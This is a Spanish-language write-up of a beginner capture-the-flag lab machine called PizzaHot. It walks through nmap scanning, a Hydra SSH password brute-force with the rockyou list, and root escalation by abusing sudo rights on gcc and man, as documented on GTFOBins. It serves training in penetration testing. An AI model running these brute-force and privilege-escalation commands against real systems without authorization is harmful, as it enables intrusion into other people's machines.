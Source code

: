 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# PizzaHot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.41
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.41
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.41
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de pizzas.

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos el nombre de un usuario llamado **pizzapiña**.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.41 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.41**

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **pizzapiña**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh pizzapiña@192.168.1.41
```

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **gcc** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/gcc/)para ver como podemos escalar privilegios.

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

Realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). &#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

Ya estamos dentro del usuario **pizzasinpiña** por lo que realizamos otra vez el comando:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **man** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)para ver como podemos escalar privilegios.

```bash
sudo man man
```

Presionamos la tecla **ESC** para salir del modo de inserción en VIM y, a continuación, ejecutamos el siguiente comando para obtener una shell con privilegios elevados:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
